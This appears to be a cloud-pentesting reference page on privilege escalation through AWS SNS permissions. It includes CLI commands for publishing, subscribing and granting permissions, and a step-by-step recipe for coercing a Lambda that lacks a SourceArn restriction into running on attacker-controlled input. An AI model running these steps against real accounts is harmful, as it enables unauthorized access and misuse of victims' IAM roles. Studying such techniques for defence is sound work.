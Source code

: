 # AWS - SNS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

For more information check:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### `sns:Publish`

An attacker could send malicious or unwanted messages to the SNS topic, potentially causing data corruption, triggering unintended actions, or exhausting resources.

```bash
aws sns publish --topic-arn <value> --message <value>
```

**Potential Impact**: Vulnerability exploitation, Data corruption, unintended actions, or resource exhaustion.

### `sns:Subscribe`

An attacker could subscribe or to an SNS topic, potentially gaining unauthorized access to messages or disrupting the normal functioning of applications relying on the topic.

```bash
aws sns subscribe --topic-arn <value> --protocol <value> --endpoint <value>
```

**Potential Impact**: Unauthorized access to messages (sensitive info), service disruption for applications relying on the affected topic.

### `sns:AddPermission`

An attacker could grant unauthorized users or services access to an SNS topic, potentially getting further permissions.

```bash
aws sns add-permission --topic-arn <value> --label <value> --aws-account-id <value> --action-name <value>
```

**Potential Impact**: Unauthorized access to the topic, message exposure, or topic manipulation by unauthorized users or services, disruption of normal functioning for applications relying on the topic.


### Invoke a Lambda by abusing wildcard SNS permission (no `SourceArn`)

If a Lambda function resource-based policy allows `sns.amazonaws.com` to invoke it without restricting the source topic (`SourceArn`), any SNS topic (even in another account) can subscribe and trigger the function. An attacker with basic SNS permissions can coerce the Lambda to execute under its IAM role with attacker-controlled input.

> [!TIP]
> TODO: Can this really be done cross-account?

Preconditions
- Victim Lambda policy contains a statement like below, with NO `SourceArn` condition:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {"Service": "sns.amazonaws.com"},
      "Action": "lambda:InvokeFunction"
      // No Condition/SourceArn restriction here
    }
  ]
}
```

Abuse steps (same or cross-account)
```bash
# 1) Create a topic you control
ATTACKER_TOPIC_ARN=$(aws sns create-topic --name attacker-coerce --region us-east-1 --query TopicArn --output text)

# 2) Subscribe the victim Lambda to your topic
aws sns subscribe \
  --region us-east-1 \
  --topic-arn "$ATTACKER_TOPIC_ARN" \
  --protocol lambda \
  --notification-endpoint arn:aws:lambda:us-east-1:<victim_acct_id>:function:<VictimFunctionName>

# 3) Publish an attacker-controlled message to trigger the Lambda
aws sns publish \
  --region us-east-1 \
  --topic-arn "$ATTACKER_TOPIC_ARN" \
  --message '{"Records":[{"eventSource":"aws:s3","eventName":"ObjectCreated:Put","s3":{"bucket":{"name":"attacker-bkt"},"object":{"key":"payload.bin"}}}]}'
```

**Potential Impact**: The victim Lambda executes with its IAM role, processing attacker-controlled input. This can be abused to make the function perform sensitive actions (e.g., write to S3, access secrets, modify resources) depending on its permissions.


{{#include ../../../../banners/hacktricks-training.md}}
